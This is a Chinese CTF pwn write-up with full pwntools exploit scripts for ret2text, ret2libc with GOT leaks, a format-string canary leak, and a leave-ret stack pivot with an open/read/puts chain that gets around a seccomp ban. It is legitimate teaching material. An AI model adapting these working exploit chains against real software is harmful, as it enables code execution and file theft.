




# PWN题解

---


## 1 简单题目回忆录

> 因为是回忆所以可能有误差（

### 1.1 nocat签到

不让写cat，所以用\隔断就可以了`ca\t flag`

### 1.2 兄弟你的环境好香？

好像就是一个标准的ret2text吧，最多需要注意一下栈对齐？

栈对齐：

在system里面崩了就可能是system在用movaps校验栈对齐

可以ret到后门函数+1的位置，避开第一个push

这样栈的存放就会有变化

### 1.3 不是哥们ret2text还阴啊？

就是这个会一个字符一个字符获取input，而循环序号i在缓冲区下面，所以会被冲掉

但是其实是可以蒙对的！

只要不改变rbp前面的payload，相当于i被冲掉的数是固定的，那么后面根据返回值在缓冲区的位置增减一下，总能吧ret的挪到正确的位置上（

一开始就是这样蒙出来的

不过拿到flag后研究了一下，可以在覆盖i的位置上刚好等于正常的i，虽然是一个字符一个字符覆盖，但是i是小于一个字符大小的，所以高位上可以直接赋值0，不会影响i的大小

```python
payload = b'A'* (56+4) + b'\x3C\x00\x00\x00' + b'C'*8 + p64(0x004011E2)
```

## 2 ret2libc

### 2.1 出题人你到底干了什么？

其实应该是很传统的写法，但因为写的时候还不会所以研究了一下：）

按步骤来展示一下！

首先获取write的plt地址和got地址，plt地址用于ret跳转，got地址是存放动态链接实际地址的地方，这里要当中buf地址传给write输出

```python
elf = ELF("--------/attachment")
libc = ELF("--------/libc.so.6")
write_plt = elf.plt['write']
print(hex(write_plt))
write_got = elf.got['write']
print(hex(write_got))
```

然后开始第一次输入，打印存放在got的动态链接地址。

由于是x64的程序，x64下通常参数从左到右依次放在rdi, rsi, rdx, rcx, r8, r9，多出来的参数才会入栈

也就是说write(1, buf,反正是个数就行)需要rdi=1, rsi=buf=got，rdx是个数就行我调的时候一直是0x200，就没管

通过`ROPgadget --binary attachment --only "pop|ret"`获取到

能够pop rdi --> p64(0x00401233)的地址，

和pop rsi --> p64(0x0401231) 的地址，这里没办法只有pop rsi, pop r15, ret的地方，只好多pop一个，我当时对了一下这个位置本来就是等于0的

参数准备好就可以跳转到write输出了！

要准备好write结束后的堆栈，重读一遍进行第二次栈溢出

```python
p = remote('node9.anna.nssctf.cn', 24553)

payload = (b'A'* (88+8+8) + p64(0x00401233) + p64(1) +
           p64(0x0401231) + p64(write_got) + p64(0) +
           p64(write_plt) + p64(0x040117B))
p.sendline(payload)
```

输出一下，拿到got存放的地址，输出很长如果没有换行符recvline()会报错

一开始我还以为是程序崩了（

```python
line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[1]", line, ":", hex_string)

print("\n")
data = p.recv(8)
hex_string = data.hex()
print("[2]data= ", data, ":", hex_string)

line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[3]", line, ":", hex_string)
```

接下来就是算libc基址，以及通过偏移量拿到libc中的system和/bin/sh

这个地方我还找了半天，什么/bin/bash；/bin/dash；sh；

就是忘记找/bin/sh了:（

```python
write_addr = u64(data)
print(format(write_addr, 'x'))
libc_base = write_addr - libc.symbols['write']
print(format(libc_base, 'x'))
system_addr = libc_base + libc.symbols['system']
print(format(system_addr, 'x'))
bin_bash = libc_base + next(libc.search(b'/bin/sh'))
print(format(bin_bash, 'x'))
```

最后就是调用准备好的system！这里也需要给system提供一下参数

同上面ROPgadget的方法，把bin_bash的地址放到rdi里

```python
payload = (b'A'* (88+8+8) +
           p64(0x0401233) + p64(bin_bash) +
           p64(system_addr+27) + p64(0x040117A))
p.sendline(payload)

p.interactive()
```

### 2.2 金丝雀

> 程序逻辑是 input name > output name > input buf
> 
> 和上一题的不同就是
> 
> Stack:      Canary found

核心就是位于rbp-8位置的canary校验

程序只要启动这个值就不会变了，所以把它输出出来，之后的payload这个位置就放这个值就好

输出需要动态调试一下，因为输出时的栈不是main时候的栈

可以先找到main时候的esp需要多少，然后+上esp到canary的数量就好了

总之这道题是第67个指针对应了canary

```python
elf = ELF("----------/xiaoniao")
libc = ELF("------------/libc.so.6")
write_plt = elf.plt['puts']
print(hex(write_plt))
write_got = elf.got['puts']
print(hex(write_got))

p = remote('node9.anna.nssctf.cn', 20348)

payload0 = b'%67$p\n'
p.sendline(payload0)
```

接下来会输出刚刚的内容，因为我们直接保存canary之后用

```python
line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[1]", line, ":", hex_string)

line = p.recvline()
canary= int(line,16)
print("[2]", line, ":", format(canary, 'x'))

line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[3]", line, ":", hex_string)
```

接下来按照普通ret2libc做就好了，拿write的plt和got输出

需要注意返回值的\x00不会覆盖，所以\x7f后面可能有乱码遗留，所以格式化一下

然后直接返回main开头再来一次

```python
payload = (b'A'* 248 + p64(canary) + b'B'* 8 +
           p64(0x0401313) + p64(write_got) +
           p64(write_plt) + p64(0x0401201))
p.sendline(payload)

data = p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')
print("[!!!]data= ", data, ":", format(u64(data), 'x'))
```

接下来让程序再次走到第二次输出

```python
line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[1]", line, ":", hex_string)

p.sendline(b"TEST")

line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[2]", line, ":", hex_string)

line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[3]", line, ":", hex_string)
```

最后算个地址，然后调用system

```python
write_addr = u64(data)
print(format(write_addr, 'x'))
libc_base = write_addr - libc.symbols['puts']
print(format(libc_base, 'x'))
system_addr = libc_base + libc.symbols['system']
print(format(system_addr, 'x'))
bin_bash = libc_base + next(libc.search(b'/bin/sh'))
print(format(bin_bash, 'x'))

payload = (b'A'* 248 + p64(canary) + b'B'* 8 +
           p64(0x0401313) + p64(bin_bash) +
           p64(system_addr+27) + p64(0x04011FD))
p.sendline(payload) 

p.interactive()
```

## 3 ret2libc也阴嘛？

> 很好的ret2dlresolve
> 
> [延迟绑定与 ret2dlresolve 详解 - xshhc - 博客园](https://www.cnblogs.com/xshhc/p/17335007.html)

这道题emmm我没有ret2libc，不过思路是从ret2dlresolve搞到的

不过题目看起来涉及libc的样子（难道不是预期解法，等我都写完就去翻翻看

毕竟这道题其实就差一个指向’/bin/sh‘字符串的指针，后面的system都给好函数了

原理就是重新调用一次gets，自己找一个固定地址写进去，这样就有了一个固定的指向’/bin/sh‘字符串的指针，直接放到rdi里调后门就好了

```python
elf = ELF("---------/nothing")
libc = ELF("-----------/libc.so.6")
read_plt = elf.plt['gets']
print(hex(read_plt))
buf = elf.bss() + 0x800
print(hex(buf))
p = remote('node9.anna.nssctf.cn', 25526)

payload =  ((b'A'* (48+8) +
            p64(0x0401273) + p64(buf) +
            p64(read_plt) +
            p64(0x0401273) + p64(buf) + p64(0x04011C1)))
p.sendline(payload)
sleep(3)
payload = b'/bin/sh\x00'
p.sendline(payload)
p.interactive()
```

`elf.bss() + 0x800`这个是随机的，只要放在不影响别人的地方就好了，不过参考写的0x800，我也写这个

总之就是第一次payload准备好调用链，先gets，再backdoor

第二次payload是自己的gets给的机会，输入’/bin/sh‘

之后就会按第一次给的调用链走下去了

## 4 不可名状的东西

这是一个栈劫持，好多坑（

整理一下思考步骤

- 只有rbp+ret+一个指针的溢出区，搜了一下只能栈劫持
- 发现不能调用system，因为execve被禁用了！只能走单独输出flag的路子
- rop可以通过libc库里的构造，但是每个libc能用的gadget是不一样的！
- 劫持后的调用链不能超过输入的缓冲区也就是0x80！！！！

我就是后两条叠加卡住了！！！！本地的库可以直接pop rdx整个调用链放满

远端的没有直接pop的，必须pop两个，调用链就超了

调试了好久，以后还是直接用题目给的so调试吧

之前以为很难搞的，但做了一下感觉还蛮方便的（只要找版本顺利

放一下使用题目so的方案

> 首先下载glibc-all-in-one
> 
> 需要注意是 python ./update_list
> 
> [pwn题加载指定libc版本本地调试程序 - libug - 博客园](https://www.cnblogs.com/libug/p/17052184.html)
> 
> 接着用IDA扫一下题目给的so版本
> 
> [pwn 查看陌生libc的版本_pwn 在线查找libc版本-CSDN博客](https://blog.csdn.net/yongbaoii/article/details/114908022)
> 
> [ida怎么查找字符串 ida字符串窗口快捷键-IDA中文网站](https://www.idapro.net.cn/jiqiao/ida-zfc.html)
> 
> 然后用pwntool直接载入就好了，见第一个链接

代码很简单，简单的害怕

放一个很好的参考

> [pwn栈迁移总结_pwn 栈迁移-CSDN博客](https://blog.csdn.net/weixin_66751120/article/details/135895357)
> 
> 有这个我才做出来了，网上的参考大多都是可以输出栈的（
> 
> 这道题根本没有指定输出的能力（
> 
> 下载seccomp-tools的链接找不到了但很好搜
> 
> 要用gem下载seccomp-tools
> 
> 绕过execve禁用的参考：
> 
> [pwn中沙盒保护之orw绕过_pwn orw-CSDN博客](https://blog.csdn.net/wangxunyu6/article/details/136566997)



```shell
seccomp-tools dump ./level1
```



放一下过程吧

> 我自己的思维模式看leave，可以归纳成
> 
> rsp=rbp+8  &&  rbp=[rbp]    同时发生
> 
> 思考成mov rsp, rbp; pop rbp 对我来说太复杂了（

第一次栈劫持， rbp=buf+0x80，经过程序的leave后 rbp=[rbp]=buf+0x80

这是我们的ret是重新读一遍，由于lea rax, [rbp-0x80]，于是rax正好是buf

会写到我们的buf里了

```python
elf = ELF("----------------/level1")
libc = ELF("-----------------/libc.so.6")
write_plt = elf.plt['puts']
print(hex(write_plt))
write_got = elf.got['puts']
print(hex(write_got))
read_plt = elf.plt['read']
print(hex(read_plt))
buf = elf.bss() + 0x500
print(hex(buf))

payload = b'A'* 0x80 + p64(buf+0x80) + p64(0x04011EF)
p.sendline(payload)
```

这次写到我们buf里的读取，也就是第二次读取，我们要让它输出一下got表里的地址，来像ret2libc一样计算libc里的地址

这次read后的leave时，rbp位置放了数据buf地址，ret是再次的leave, ret

leave后 rbp = [rbp] = buf ; rsp = 不重要

再次leave后 rbp=[buf] ; rsp = buf+8 

也就是其实是通过两次leave把 rsp送到buf+8上，这样就能用缓冲区继续了

```python
payload = ((b'AAAAAAA\x00' + p64(0x04011C5) + p64(write_got) + p64(write_plt) +
            p64(0x04011C8) + p64(buf+0x300+0x80) + p64(0x04011EF)).ljust(0x80,b'\x00')
           + p64(buf) + p64(0x40120F))
p.sendline(payload)
```

buf+8位置就是现在的栈顶，也就是0x04011C5是pop rdi的位置就可以输出write_got了

这个时候可以打印输出获取一下了

输出地址后，这次的rop我们还需要再次让他来一次read，这次把栈送到一个新地址上buf+0x300

通过pop rbp指定下一轮的rbp是buf+0x300+0x80 ，然后调用read

先输出吧

```python
line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[1]", line, ":", hex_string)

data = p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')
print("[!!!]data= ", data, ":", format(u64(data), 'x'))

line = p.recvline()  # 接收'\n'
hex_string = line.hex()
print("[3]", line, ":", hex_string)
```

用got记录的地址计算

```python
write_addr = u64(data)
print(format(write_addr, 'x'))
libc_base = write_addr - libc.symbols['puts']
print(format(libc_base, 'x'))
system_addr = libc_base + libc.symbols['system']
print(format(system_addr, 'x'))
bin_bash = libc_base + next(libc.search(b'/bin/sh'))
print(format(bin_bash, 'x'))
open_addr = libc_base + libc.symbols['open']
print(format(open_addr, 'x'))
```

由于要用到libc里的pop |ret也可以直接计算一下



```python
def search_asm_libc(str):
    gadget = asm(str)
    search_addr = 0
    for addr in libc.search(gadget):
        print(hex(addr))
        if addr > 0x100000:
            search_addr = addr
            break
    return search_addr


pop_rdi = libc_base + search_asm_libc(r'pop rdi; ret')
#pop_rsi = libc_base + 0x2be51
print(format(pop_rdi, 'x'))


pop_rsi = libc_base + search_asm_libc(r'pop rsi; ret')
#pop_rsi = libc_base + 0x2bb69
print(format(pop_rsi, 'x'))

pop_rdx = libc_base + search_asm_libc(r'pop rdx; pop rbx; ret')
#pop_rdx = libc_base + 0x904a9
print(format(pop_rdx, 'x'))
```

算好之后就可以再来一次read了

这一次通过两次leave把rsp=buf+0x300+8

然后构造open('/flag', 0)的参数

之后要再次pop新rbp=buf + 0x500 +80，再调用read，也就是新一轮栈在buf + 0x500

```python
payload = ((b'/flag\x00\x00\x00' +
            p64(0x04011C5) + p64(buf + 0x300) + p64(pop_rsi) + p64(0) + p64(open_addr) +
            p64(0x04011C8) + p64(buf + 0x500+0x80) + p64(0x04011EF)
            ).ljust(0x80,b'\x00') + p64(buf+0x300) + p64(0x40120F))
print(len(payload))
p.sendline(payload)
```

栈来到了buf + 0x500这边，这次调用read读然后直接put

```python
payload = ((b'BBBBBBB\x00' +
            p64(pop_rdx) + p64(0x100) + p64(0) +
            p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(buf) +
            p64(read_plt) +
            p64(pop_rdi) + p64(buf) + p64(write_plt)
            ).ljust(0x80,b'\x00') + p64(buf+0x500) + p64(0x40120F))
print(len(payload))
p.sendline(payload)
```

最后直接接收flag就好了



---

@PHOEXINA
